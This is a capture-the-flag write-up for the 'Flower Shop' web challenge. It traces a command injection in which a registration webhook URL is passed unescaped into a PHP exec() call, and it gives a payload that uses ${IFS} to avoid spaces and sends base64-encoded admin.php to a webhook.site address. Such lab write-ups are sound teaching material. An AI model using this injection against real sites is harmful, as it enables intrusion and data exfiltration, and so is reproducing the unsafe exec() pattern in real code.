 # Flower Shop

## Description

Flowers!

*Flag format: CACI{}*

*Author: CACI | @nihilistpenguin*

## Files

* [FlowerShop.zip](files/FlowerShop.zip)


## Solution

For this challenge we are given a website that has a simple registration, login, and password reset function.

![site](images/1.png)

The interesting thing about the registration page is that it has a space to give a webhook address. When a user submits a password reset request, it creates a new temporary password and sends it via a POST request to the provided URL.

We are also given the source code of the website and can explore how the webhook functionality works and how we can potentially abuse it.

First, we can see that the flag will be located in admin.php

```php
<?php include "templates/header.php"; ?>    
    <div class="container">
        <h3>CACI{FAKE_FLAG_FOR_TESTING}</h3>
    </div>
<?php include "templates/footer.php"; ?>
```

In */app/classes/signup.class.php* we can see that the webhook URL is filtered using the built-in filter_var function and FILTER_SANITIZE_URL which removes invalid URL characters.

```php
public function __construct($uid, $pwd, $wh) {
        $this->uid = htmlspecialchars($uid);
        $this->pwd = $pwd;
        $this->wh = filter_var($wh, FILTER_SANITIZE_URL);
    }
```

Then, in */app/classes/reset.class.php* the webhook is used in an exec call, which is vulnerable to command injection.

```php
exec("php ../scripts/send_pass.php " . $this->tmpPass . " " . $this->wh . " > /dev/null 2>&1 &");
```

Since the filtering is fairly lenient, the only thing we really need to worry about is the lack of spaces allowed in our commands. However, we can get around that by using ${IFS} as a seperator instead.

By using webhook.site to create a new temporary webhook we can register a new user on the site with a malicious webhook like:

*webhook.site/<some-id>?data=\`cat${IFS}../admin.php|base64\`*

And then when the password reset is triggered for the user, it reads admin.php and converts it to base64, which is then appended as a parameter to the webhook URL, where we can get the flag.

Since the webroot of the challenge was writable, I chose to simply copy admin.php to a new text file and browse to it.
